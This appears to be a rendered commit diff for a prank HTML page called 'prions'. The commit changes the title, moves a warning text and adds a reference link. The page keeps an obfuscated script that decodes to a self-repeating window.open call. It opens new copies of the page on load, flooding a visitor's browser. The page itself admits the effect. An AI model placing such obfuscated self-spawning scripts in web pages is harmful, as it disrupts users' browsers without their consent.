

Before and after one commit to raphilong/prions, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Added reference link

```diff
--- a/index.html
+++ b/index.html
@@ -4,8 +4,7 @@ PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" // XHTML Transitional DTD
 
 <html>
 	<head>
-	<title>Bad Prion! We are infecting your browser!
-	</title>
+		<title>Prionic Page!</title>
 		<script>
 			(function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
 			(i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
@@ -14,12 +13,13 @@ PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" // XHTML Transitional DTD
 
 			ga('create', 'UA-47682200-1', 'niharmitra.github.io');
 			ga('send', 'pageview');
-
 		</script>
 	<body>
-	To stop the spread of prions, disable JavaScript in your web browser settings, or restart your browser without "restoring" old tabs.
 		<script type="text/javascript">
 			var _0xca59=["\x69\x6E\x64\x65\x78\x2E\x68\x74\x6D\x6C","\x6F\x70\x65\x6E"];var link=_0xca59[0];window[_0xca59[1]](link);
 		</script>
+		To stop the spread of prions, disable JavaScript in your web browser settings,
+		or restart your browser without "restoring" old tabs.
+		To learn more about prions, visit <a href="http://learn.genetics.utah.edu/content/molecules/prions/">learn.genetics.utah.edu</a>
 	</body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
